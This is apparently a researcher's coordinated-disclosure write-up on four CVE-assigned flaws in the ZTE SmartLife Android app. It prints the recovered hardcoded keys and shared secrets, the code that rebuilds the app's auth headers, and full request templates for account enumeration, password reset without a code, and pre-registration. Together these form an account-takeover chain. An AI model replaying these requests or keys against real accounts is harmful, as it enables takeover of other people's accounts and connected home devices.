

This started as router firmware research. I was looking at ZTE H188A/H288A firmware artifacts, ISP builds, hardcoded values, and the surrounding SmartLife ecosystem. The interesting part eventually moved away from the router and into the cloud account layer used by the official ZTE SmartLife Android app.
The mobile app contained recoverable trust material, and the backend accepted the resulting SmartLife application context for account-sensitive operations.
As of August 13, 2026, Google Play showed 100K+ downloads for com.zte.smarthome.abroad, and the same app was also publicly distributed through Apple's App Store. The confirmed public lower bound is therefore 100K+ Android downloads, with additional iPhone/iPad distribution on top.
ZTE PSIRT later verified four vulnerabilities from the submission and assigned CVE IDs after remediation. The strongest verified issue was a password-reset flaw rated by ZTE as CVSS 8.8 High. ZTE assessed the account-deletion behavior as test-environment-only, so it is excluded from the confirmed production CVE set.
com.zte.smarthome.abroad v2.8.1zxuacde.smart-zte.com100K+ Google Play downloads, plus App Store distribution
The bug class
The SmartLife backend had two layers that should have stayed separate. The first was application identity: the mobile client needed to prove that a request came from the SmartLife app context. The second was user authorization: account lifecycle operations needed proof that the caller controlled the specific user account being changed.
The official client exposed or generated the app-auth boundary, while several account flows behind it lacked user-level authorization checks.
In the later runtime retest, the official app exposed the current SmartLife UAC/account server as https://zxuacde.smart-zte.com. Using the runtime-derived app-auth path, the account backend reproduced the core behaviors for account verification, signup, password reset, and login on researcher-owned proof accounts.
Technical setup
The analyzed Android package was the public SmartLife client, com.zte.smarthome.abroad version 2.8.1. Static analysis identified the account bootstrap and request-construction paths. Runtime validation was then performed on a rooted Android 12 MuMu emulator with Frida attached to the official app process.
The later runtime test observed the active SmartLife account backend as:
Runtime values observed from the official app process
UAC_ACCOUNT_SERVER_URL=https://zxuacde.smart-zte.com
UAC_ACCOUNT_CLIENT_ID=271950143414
UAC_ACCOUNT_TENANT_ID=10001
UAC_ACCOUNT_ACCESS_KEY=271950143414fnu4mb3lxxotfj5mi1tp
UAC_ACCOUNT_CLIENT_KEY=djrom(&)(&)MORJD
UAC_ACCOUNT_SEC_KEY=b2cfe28732612cfd81de7a22ace2034317a47eb94683a016a85cc0883597c625Because all vulnerabilities have been fully patched and replaced by ZTE, the active key material can now be disclosed in full:
- Bootstrap Decryption Key (CVE-2026-86555):
096760a7a99d99d12de9fecbfca568c0— a static AES-128-GCM key hardcoded inAppMainBackend.setUacSignInfoto decrypt the bootstrap blob returned by/api/getUacSignInfo. - Recovered Client Symmetric Key:
djrom(&)(&)MORJD(UAC_ACCOUNT_CLIENT_KEY) — the AES-GCM key used across the application to encrypt dynamic authentication tokens (X-Auth-Value) and sensitive payload fields (such as target emails and passwords). - Shared Account Secret & Access Key:
b2cfe28732612cfd81de7a22ace2034317a47eb94683a016a85cc0883597c625(UAC_ACCOUNT_SEC_KEY) and271950143414fnu4mb3lxxotfj5mi1tp(UAC_ACCOUNT_ACCESS_KEY) — embedded into the signed request header payload. - Camera Mutual-TLS Private Key: In addition to the UAC keys, static APK analysis uncovered a plaintext RSA 2048 private key at
res/raw/smartlife_keymatching the client certificateres/raw/smartlife(issued byZTE-CAMERA-CA), used for camera/MQTT communications.
How app-auth was reconstructed
The SmartLife account API expected several application-authentication headers. In concrete terms, the app-auth model was constructed as follows:
Header model expected by the account API
X-App-Id: 271950143414
X-Tenant-Id: 10001
X-Itp-Value: accessKey=271950143414fnu4mb3lxxotfj5mi1tp
X-Auth-Value: <fresh AES-GCM encrypted authentication value>
X-Lang-Id: en_USThe header generation process relied on a two-stage cryptographic flow using hardcoded and recovered keys:
Cryptographic auth-generation flow
# Step 1: Query public bootstrap endpoint
# POST https://ossx-smart.ztehome.com.cn:5443/api/getUacSignInfo
# Body: {"clientid": "271950143414", "appDistrict": "DE"}
# Response returns base64 ciphertext in result.data
# Step 2: Decrypt bootstrap blob with static APK key (CVE-2026-86555)
BOOTSTRAP_KEY = "096760a7a99d99d12de9fecbfca568c0" # AES-128-GCM
uac_json = aes_gcm_decrypt(result.data, key=BOOTSTRAP_KEY)
# Recovered fields:
# appClientKey = "djrom(&)(&)MORJD"
# appUacSec = "b2cfe28732612cfd81de7a22ace2034317a47eb94683a016a85cc0883597c625"
# appUacItp = "271950143414fnu4mb3lxxotfj5mi1tp"
# appUacId = "271950143414"
# appUacTenant = "10001"
# appUacUrl = "https://zxuacde.smart-zte.com"
# Step 3: Construct fresh X-Auth-Value header
timestamp_ms = get_current_time_millis()
auth_material = f"{uac_json.appUacSec},{uac_json.appUacId},{uac_json.appUacItp},{timestamp_ms}"
x_auth_value = aes_gcm_encrypt(auth_material, key="djrom(&)(&)MORJD")
headers = {
"X-App-Id": "271950143414",
"X-Tenant-Id": "10001",
"X-Itp-Value": "accessKey=271950143414fnu4mb3lxxotfj5mi1tp",
"X-Auth-Value": x_auth_value,
"X-Lang-Id": "en_US"
}That app-auth context was then accepted by the SmartLife account backend. The backend still needed user-level authorization checks for sensitive actions, and the verified findings show where those checks were missing or incomplete.
The two PoC methods
I used two validation paths during the case. They proved the same core account behavior from different angles.
Method 1: direct replay from recovered app-auth context
The first PoC used the bootstrap-derived SmartLife app-auth material to build the headers expected by the account backend, then replayed a minimal account lifecycle sequence against researcher-controlled accounts. In this replay, sensitive parameters (email identifier and passwords) were encrypted with AES-GCM using appClientKey (djrom(&)(&)MORJD).
Direct replay PoC structure with payload encryption
base = "https://zxuacde.smart-zte.com/zte-sec-uac-iportalbff/external"
headers = build_smartlife_app_auth_headers(uac_context) # AES-GCM with key "djrom(&)(&)MORJD"
# Email encrypted via AES-GCM using client key "djrom(&)(&)MORJD"
enc_email = aes_gcm_encrypt("target@example.com", key="djrom(&)(&)MORJD")
verify_before = post(base + "/account/verify.serv", {"key": enc_email}, headers)
signup = post(base + "/account/person/signup.serv", {"email": email, "password": pass, "country": "0054"}, headers)
verify_after = post(base + "/account/verify.serv", {"key": enc_email}, headers)
reset = post(base + "/account/password/reset.serv", {"accountId": account_id, "newPassword": new_pass}, headers)
# Login requires AES-GCM encryption of loginName and passWord using key "djrom(&)(&)MORJD"
enc_pass = aes_gcm_encrypt(new_pass, key="djrom(&)(&)MORJD")
verifyCode = sha256_hex(enc_email + enc_pass + login_client_ip + client_id)
login = post(base + "/auth/login.serv", {
"loginName": enc_email,
"passWord": enc_pass,
"loginSystemCode": "271950143414",
"loginClientIp": login_client_ip,
"verifyCode": verifyCode
}, headers)This method was useful because it produced clean request/response evidence: exact status codes, account postconditions, and a final successful login after reset.
Method 2: Frida/runtime extraction from the official app
The second PoC attached to the running official Android app and observed the UAC account context generated by the client itself. This answered a different question: whether the current public client still selected a live SmartLife account backend and generated the app-auth context at runtime.
Frida/runtime PoC structure
attach("com.zte.smarthome.abroad")
hook_uac_context_getters()
hook_header_builder_or_request_sender()
print("UAC_ACCOUNT_SERVER_URL", "https://zxuacde.smart-zte.com")
print("UAC_ACCOUNT_CLIENT_KEY", "djrom(&)(&)MORJD")
print("X-App-Id", "271950143414")
print("X-Tenant-Id", "10001")
print("X-Itp-Value", "accessKey=271950143414fnu4mb3lxxotfj5mi1tp")
print("X-Auth-Value", observed_auth_value) // generated in-process via AesUtils.aesGcmEncrypt with djrom(&)(&)MORJD
The Frida path mattered because it reduced the room for an environment argument. It showed the official app process selecting zxuacde.smart-zte.com as the SmartLife UAC/account backend and producing the account API authentication context live.
The chain in plain English
Recover or observe the SmartLife app context
The official client path provided the application-level context used for SmartLife account API traffic.
Ask the account API whether an identity exists
The verification flow distinguished registered from unregistered emails and disclosed the backend account identifier on the success path.
Use the identifier against reset
The reset flow accepted the target identifier and a new password without requiring the old password or a verified reset code in the validated flow.
Log in with the new password
The proof account could then authenticate with the attacker-selected password and receive a valid SmartLife session.
Endpoint behavior matrix
The table below shows the backend behavior that mattered. The request bodies are summarized rather than reproduced verbatim.
| Endpoint | Input class | Observed behavior | Security issue |
|---|---|---|---|
/account/verify.serv |
Encrypted email identifier (AES-GCM key: djrom(&)(&)MORJD) |
Unregistered address returned a distinct not-found code; registered address returned success and the backend account identifier. | Account enumeration and accountId disclosure. |
/account/password/reset.serv |
Target account identifier and new password | Password reset returned success without old password or verified reset code in the validated flow. | Missing critical reset authorization step. |
/auth/login.serv |
Encrypted login name and password (AES-GCM key: djrom(&)(&)MORJD) |
Login succeeded after the reset using the attacker-selected password and returned a valid session for the proof account. | Confirmed postcondition for account takeover. |
/account/person/signup.serv |
Email identity and account-registration fields | Signup succeeded before mailbox ownership was proven; duplicate signup was then blocked as already registered. | Email pre-registration / account squatting. |
/account/delete.serv |
Target account identifier | Earlier runtime-selected environment allowed destructive behavior; the later current runtime path returned token-check failure. | Not claimed as a confirmed production vulnerability after ZTE's clarification. |
Trigger request for each bug
The weakness in each case was visible from the minimal request shape. The highlighted field or omission below is the part that should not have been sufficient on its own.
Bug 1. Forged SmartLife app-auth via public bootstrap
POST /api/getUacSignInfo HTTP/1.1
Host: ossx-smart.ztehome.com.cn:5443
Content-Type: application/json
{
"clientid": "271950143414",
"appDistrict": "DE"
}
// Decrypt result.data with static APK key (CVE-2026-86555):
decrypt(result.data, key="096760a7a99d99d12de9fecbfca568c0")
// Yields recovered UAC context:
// appClientKey: "djrom(&)(&)MORJD"
// appUacSec: "b2cfe28732612cfd81de7a22ace2034317a47eb94683a016a85cc0883597c625"
// appUacItp: "271950143414fnu4mb3lxxotfj5mi1tp"
derived account headers:
X-App-Id: 271950143414
X-Tenant-Id: 10001
X-Itp-Value: accessKey=271950143414fnu4mb3lxxotfj5mi1tp
X-Auth-Value: aes_gcm_encrypt("${appUacSec},271950143414,${appUacItp},${ms}", key="djrom(&)(&)MORJD")Weakness: public bootstrap data plus client-shipped decrypt key 096760a7a99d99d12de9fecbfca568c0 yielded client key djrom(&)(&)MORJD and secret material used to sign requests reaching the account backend (CVE-2026-86555).
Bug 2. Account enumeration and accountId disclosure
POST /zte-sec-uac-iportalbff/external/account/verify.serv HTTP/1.1
Host: zxuacde.smart-zte.com
X-App-Id: 271950143414
X-Tenant-Id: 10001
X-Itp-Value: accessKey=271950143414fnu4mb3lxxotfj5mi1tp
X-Auth-Value: <fresh AES-GCM token encrypted with "djrom(&)(&)MORJD">
X-Lang-Id: en_US
Content-Type: application/json
{
"key": "<aes_gcm_encrypt(email, key="djrom(&)(&)MORJD")>"
}
registered -> code=0000 + accountId
unregistered -> code=0004Weakness: the target email was encrypted with the recovered client key djrom(&)(&)MORJD. The endpoint acted as a registered-account oracle and disclosed the backend account identifier on the success path (CVE-2026-86554).
Bug 3. Password reset without verification code
POST /zte-sec-uac-iportalbff/external/account/password/reset.serv HTTP/1.1
Host: zxuacde.smart-zte.com
X-App-Id: 271950143414
X-Tenant-Id: 10001
X-Itp-Value: accessKey=271950143414fnu4mb3lxxotfj5mi1tp
X-Auth-Value: <fresh AES-GCM token encrypted with "djrom(&)(&)MORJD">
X-Lang-Id: en_US
Content-Type: application/json
{
"accountId": "A<target accountId>",
"newPassword": "<attacker-selected password>"
// no reset code, no old password, no bound reset transaction
}Weakness: account state changed on the basis of accountId plus new password alone. The missing verification step is the bug (CVE-2026-86553).
Bug 4. Account deletion without user token on the earlier runtime-selected path
POST /zte-sec-uac-iportalbff/external/account/delete.serv HTTP/1.1
Host: uactest.ztems.com
X-App-Id: 271950143414
X-Tenant-Id: 10001
X-Itp-Value: accessKey=271950143414fnu4mb3lxxotfj5mi1tp
X-Auth-Value: <fresh AES-GCM token encrypted with "djrom(&)(&)MORJD">
X-Emp-No: A<target accountId>
X-Lang-Id: en_US
Content-Type: application/json
{
"accountId": "A<target accountId>"
// no user Bearer token in the validated earlier-path behavior
}Weakness: the earlier path accepted application context plus account identifier for destructive account action. ZTE later said the production path requires a token.
Bug 5. Arbitrary email pre-registration / account squatting
POST /zte-sec-uac-iportalbff/external/account/person/signup.serv HTTP/1.1
Host: zxuacde.smart-zte.com
X-App-Id: 271950143414
X-Tenant-Id: 10001
X-Itp-Value: accessKey=271950143414fnu4mb3lxxotfj5mi1tp
X-Auth-Value: <fresh AES-GCM token encrypted with "djrom(&)(&)MORJD">
X-Lang-Id: en_US
Content-Type: application/json
{
"email": "<arbitrary victim identity>",
"password": "<chosen password>",
"countryCode": "DE",
"mailboxOwnership": "not yet proven"
}Weakness: account creation and later login succeeded before mailbox ownership was proven, allowing identity reservation and squatting (CVE-2026-86552).
Postcondition: Login with new password
POST /zte-sec-uac-iportalbff/external/auth/login.serv HTTP/1.1
Host: zxuacde.smart-zte.com
X-App-Id: 271950143414
X-Tenant-Id: 10001
X-Itp-Value: accessKey=271950143414fnu4mb3lxxotfj5mi1tp
X-Auth-Value: <fresh AES-GCM token encrypted with "djrom(&)(&)MORJD">
X-Lang-Id: en_US
Content-Type: application/json
{
"loginName": "<aes_gcm_encrypt(email, key="djrom(&)(&)MORJD")>",
"passWord": "<aes_gcm_encrypt(newPassword, key="djrom(&)(&)MORJD")>",
"loginSystemCode": "271950143414",
"loginClientIp": "127.0.0.1",
"verifyCode": "<sha256_hex(loginName + passWord + ip + systemCode)>"
}Proof: using the attacker-set password encrypted with djrom(&)(&)MORJD and the corresponding verifyCode hash, login returns a valid session token for the proof account.
The account takeover bug
The password-reset issue is the part that matters most from an impact standpoint. In a normal account system, password reset should be gated by a server-side reset transaction: send a code, verify the code, bind the reset to the target account, then allow the password change.
In the validated SmartLife flow, the backend accepted a reset using the account target and a new password without the missing verification step. After reset, login with the new password succeeded for the researcher-controlled proof account.
The enumeration issue located the account target, and the reset issue changed account state and produced a valid login outcome.
The proof sequence for the owned test account was:
Owned-account proof sequence
1. verify(fresh_email) -> account does not exist
2. signup(fresh_email) -> account created
3. verify(fresh_email) -> account exists + backend accountId
4. reset(accountId, newPass) -> success without reset code
5. login(fresh_email, oldPass) -> rejected
6. login(fresh_email, newPass) -> success + session tokenSteps 5 and 6 establish the state change: the reset replaced the account password, and the same account system accepted the new password afterward.
Why the impact was deeper than client-secret exposure
A hardcoded or recoverable client secret can sometimes be dismissed as a mobile reverse-engineering issue. That framing would miss the real impact here.
The app-auth recovery was the entry point. The verified account bugs were the impact:
That is the difference between "the app contains a secret" and "the account backend can be driven into takeover."
What the SDK exposed after account login
The account takeover mattered because SmartLife account state was not isolated from the rest of the app. Static analysis showed the login result being wired into the ZTE Homecare SDK: the app set the account identifier and access token, then continued into home, device, and sign-info flows.
In the Homecare request stack, authenticated requests carried the account token as a bearer credential and marked the caller as SmartLife:
Homecare SDK request model
Authorization: Bearer <SmartLife access token>
appFrom: smartLife
ZTEHomecareSDK.setAccessToken(login_result.token)
ZTEHomecareSDK.setAccountId(login_result.accountId)That made the confirmed account takeover more than a profile bug. The same app-side account session was the credential path for a broader Homecare cloud surface.
Home, room, and device inventory
The APK exposed endpoints for listing homes, rooms, and bound devices. These are the routes that turn an account session into a map of the user's SmartLife environment.
/api/home-manage/query-list
/api/room-manage/query-list
/api/device-manage/ztelife2.0/query-list
/api/device-manage/query-listDevice binding, unbinding, and sharing
The SDK also contained cloud routes for binding state and sharing relationships. These are high-value because they affect who can see or control a home/device graph.
/api/device-manage/bind
/api/device-manage/query-bindstatus
/api/device-manage/unbind
/api/share-device/accept
/api/share-device/unshare
/api/home-member/add-acceptCloud-to-device command and upgrade paths
The router/device side was visible through cloud MQTT forwarding and one-key upgrade orchestration. Those routes show that a SmartLife account session sits directly upstream of command forwarding and upgrade actions, not just profile settings.
/api/v1/self-app/mqtt-forwarding
/api/v1/self-app/get-mqtt-forwarding-result
/api/v1/self-app/one-key-upgrade/exec-upgrade
/api/v1/self-app/one-key-upgrade/get-upgrade-resultCamera, sensor, sub-user, and defence surface
A separate SDK constants class exposed privacy and security-device route families. That widened the visible post-login surface beyond account lifecycle endpoints alone.
/api/list-camera
/api/list-camera-state
/api/cloud/get-camera-tsgroups
/api/list-camera-cautions
/api/list-sub-users
/api/list-user-logs
/api/list-sensor-infos
/api/list-sensor-logs
/api/set-camera-view
/api/notify-camera-caution
/api/unbind-camera
/api/sechost/set-sechost-defence
/api/set-sensor-defenceThe verified account takeover produced the same account session the app uses to enter the Homecare device plane. The SDK surface shows how much cloud and device functionality sits behind that session boundary.
The host confusion
Environment naming created noise during the case. Earlier proof material involved a runtime-selected backend whose hostname contained test, which naturally raised the production-versus-test question.
Later runtime work against the official public client showed a cleaner current path: zxuacde.smart-zte.com. That host is an internet-facing HTTPS domain serving the SmartLife UAC/account backend used by the official mobile app. The later retest reproduced the important account behaviors there, including verification, signup, password reset, and login on controlled proof accounts.
The delete endpoint is the exception. On the newer runtime path, the delete test returned token-check failure. ZTE later said the behavior was available only in the test environment and that production requires a token. The confirmed production set therefore excludes deletion.
Observed scope
Live validation covered account verification, signup, password reset, login, deletion behavior on the earlier path, and runtime app-auth generation in the public client. Static analysis then mapped the broader Homecare routes reached by the same authenticated account session.
That split matters because it shows both the directly verified account failures and the larger device/cloud surface that sits immediately behind the same SmartLife login boundary.
What ZTE verified
ZTE PSIRT confirmed the vulnerability order as submitted, provided CVSS vectors during triage, later confirmed remediation, and assigned four CVEs. ZTE also stated that /account/delete.serv was test-environment-only on the path they considered current, which is why the deletion finding is separated from the four CVE-assigned items.
| Bug | Finding | CVE | ZTE score | Practical impact |
|---|---|---|---|---|
| 1 | Forged SmartLife app-auth via public bootstrap / client trust recovery | CVE-2026-86555 |
6.2 |
Hardcoded AES-GCM key 096760a7a99d99d12de9fecbfca568c0 decrypted unauthenticated bootstrap responses, exposing static client key djrom(&)(&)MORJD and shared secret material. |
| 2 | Account enumeration / accountId disclosure | CVE-2026-86554 |
4.3 |
Registered-account oracle and backend account identifier disclosure. |
| 3 | Password reset without verification code | CVE-2026-86553 |
8.8 |
Account takeover once app context and the target account identifier are available. |
| 4 | Account deletion without user token | Not assigned | Not assigned in production | ZTE stated this behavior was test-environment-only and that the production path requires a token. |
| 5 | Arbitrary email pre-registration / account squatting | CVE-2026-86552 |
5.4 |
Email identity reservation before mailbox ownership is proven in the validated signup flow. |
Official ZTE advisories
ZTE published the advisory records on its own support bulletin portal and acknowledged the report under my full name. These vendor records are the primary references for the final public version.
- CVE-2026-86553: A password reset vulnerability in ZTE SmartLife APP - High, CVSS 8.8.
- CVE-2026-86555: Hardcoded Key Vulnerability in ZTE SmartLife APP - Medium, CVSS 6.2 (hardcoded bootstrap decryption key
096760a7a99d99d12de9fecbfca568c0and static client keydjrom(&)(&)MORJD). - CVE-2026-86554: Email enumeration and account ID leakage vulnerabilities in ZTE SmartLife APP - Medium, CVSS 4.3.
- CVE-2026-86552: A vulnerability that skips email ownership verification for account registration in ZTE SmartLife APP - Medium, CVSS 5.4.
Tools used
- jadx for decompiling the SmartLife Android client and tracing account, SDK, and request-building flows.
- APK extraction and resource inspection for config files, embedded assets, and host-selection material.
- Frida for runtime observation of UAC/account context and live app-auth generation inside the public Android app.
- ADB and Android emulation for controlled execution of the public client during runtime validation.
- PowerShell PoC scripts for replaying the validated account lifecycle flows against researcher-controlled proof accounts.
- Manual HTTP inspection for correlating request shape, response codes, and account postconditions across the verified endpoints.
Disclosure timeline
- 2026-05-18Full technical report sent to ZTE PSIRT in the email body, including the five-bug chain, request examples, observed behavior, weakness mapping, and requested handling.
- 2026-06-01ZTE requested that the same vulnerability details be submitted using its official report template; the completed template was sent that day.
- 2026-06-12After attachment-delivery issues, ZTE asked for the report package again; the zipped report was resent and ZTE confirmed receipt.
- 2026-06-12/13ZTE requested screenshots or video proof; raw evidence summaries, screenshots, video, and PoC scripts were sent.
- 2026-07-13/16ZTE requested app-auth reconstruction details and step-by-step proof for each vulnerability; the supporting-evidence package was sent on July 16.
- 2026-08-12ZTE confirmed the verified findings and provided CVSS vectors.
- 2026-09-03ZTE stated that the vulnerabilities had been fully patched.
- 2026-09-20ZTE published four advisories and assigned
CVE-2026-86552,CVE-2026-86553,CVE-2026-86554, andCVE-2026-86555.
Fixes that matter
Fixes need to address both layers: remove recoverable bootstrap trust material and enforce account-level authorization at every sensitive endpoint.
- Rotate exposed client/app trust material and remove recoverable static secrets from the mobile client.
- Do not expose backend account identifiers through email verification flows.
- Return uniform responses for registered and unregistered identities where possible.
- Require a verified, server-bound reset transaction before password changes.
- Do not activate or allow login to an email-based account before mailbox ownership is proven.
- Keep test and production account environments separated so public clients cannot land on weaker lifecycle controls.
Takeaway
The core bug was simple: the reset endpoint accepted a password change without asking for a reset code at all. Once the account layer also exposed identity lookup and account identifiers, that became account takeover.